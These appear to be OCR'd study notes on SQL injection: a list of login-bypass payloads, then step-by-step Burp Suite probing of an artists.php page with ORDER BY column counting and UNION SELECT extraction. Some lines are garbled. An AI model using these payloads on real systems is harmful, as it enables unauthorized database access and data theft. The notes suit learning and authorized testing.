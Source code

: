 •	admin' # 
•	admin'/* 
•	' or 1=1-- 
•	' or 1=1# 
•	' or 1=1/* 
•	') or '1'='1-- 
•	') or C11=11—

•	TIP: HOW TO HUNT?
o	Whenever u put ‘,` or any other then if it shows error like, “SQL Syntax error” or something like “on line” that mean it’s vulnerable.

•	Using BurpSuit (Identify SQL Injection)
o	Craw every functionality in webapp
o	For GET /artists.php?artist=1
	Check out Content-Length: 6251
	SELECT * FROM artists WHERE artist=’john’
o	For GET /artists.php?artist=abc
	Content-Length: 4853
o	So first need to identify what characters they are using for enclosing the values like ‘, “, `
	artis=(1), artis=(‘1’), artis=(“1”), artis=“1”
	artist=’1\’  Error
o	For GET /artists.php?artist=1\
	Length: 4927
	Render  Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists_php on line 62
	It means there could be a SQL injection.
o	We can also check errors by
	‘  Error
	‘-- Error (--space)
o	For artist=1’  Error
o	For artist=1’--+  Error (not using single quote)
o	For artist=1"--+  Error
o	For artist=1")--+  Error
o	For artist=1’)--+  Error
o	In this case they are not using any character to enclose the values
	For artist=1--+  No error (Normal result)
o	Also can try For artist[]=1
•	Find how many Parameters/Columns are there, Which Parameter is vuln.
o	Count Numbers of para.
	Common entry artist=1--+ (which is not giving the error)
	(suppose if no error for artist=1’--+ then put queries in artist1’+quer+--+)
	artist=1++--+
	Find Numbers for Columns
•	ORDER BY 1 (this is a query)
o	artist=1+ORDER+BY+1+--+
o	Increase number and check when error occurs.
o	artist=1+ORDER+BY+2+--+
o	artist=1+ORDER+BY+3+--+
o	Till 3 we are not getting errors (last value with no error)
o	Means the number of columns is 3
	Find Vulnerable columns 
•	UNION SELECT <found columns> (It required columns number)
•	artist=-1+UNION+SELECT+1,2,3+--+
o	Check which number is reflecting in render.
o	So that mean column 2 and 3 is vulnerable.
•	Check Functions
o	database() Return the default (current) database name
o	user() The user name and host name provided by the client
o	version() Return a string that indicates the MySQL server version
o	SOME MORE FUNCTIONS CAN CHECK
	BENCHMARK():Repeatedly execute an expression
	CHARSET():Return the character set of the argument
	COERCIBILITY():Return the collation coercibility value of the string argument